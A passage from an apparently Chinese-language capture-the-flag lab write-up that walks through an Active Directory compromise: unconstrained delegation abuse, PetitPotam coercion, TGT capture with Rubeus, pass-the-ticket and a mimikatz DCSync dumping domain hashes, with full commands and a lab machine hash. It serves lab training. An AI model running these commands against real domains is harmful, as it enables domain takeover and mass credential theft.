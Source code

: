 WIN19 也就是当前机器配置了非约束委派, 那么结合 SpoolSample, PetitPotam 或者其它 XXCoerce 就能够拿到指定机器账户的 TGT

![image-20230809164529753](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091645800.png)

直接 PetitPotam, 然后 mimikatz 查看票据好像抓不到....

于是换成了 Rubeus (需要管理员权限)

```shell
Rubeus.exe monitor /interval:1 /filteruser:DC01$
```

PetitPotam

```shell
proxychains python3 PetitPotam.py -u 'WIN19$' -hashes :2c05ad434d747b203a57565194891b38 -d xiaorang.lab -dc-ip 172.22.4.7 WIN19.xiaorang.lab DC01.xiaorang.lab
```

![image-20230809165108799](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091651839.png)

`DC01$` 的 TGT

![image-20230809165751100](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091657142.png)

导入 TGT 然后 DCSync

```shell
Rubeus.exe ptt /ticket:xxx
mimikatz.exe "lsadump::dcsync /all /csv"
```

![image-20230809165919237](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091659283.png)

![image-20230809165958649](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091659693.png)

flag03

![image-20230809170246945](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091702986.png)

flag04

![image-20230809170157678](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091701727.png)

在 FILESERVER 上发现了域管的 session, 感觉正常步骤好像应该是先拿 FILESERVER 导出域管密码然后再拿下域控?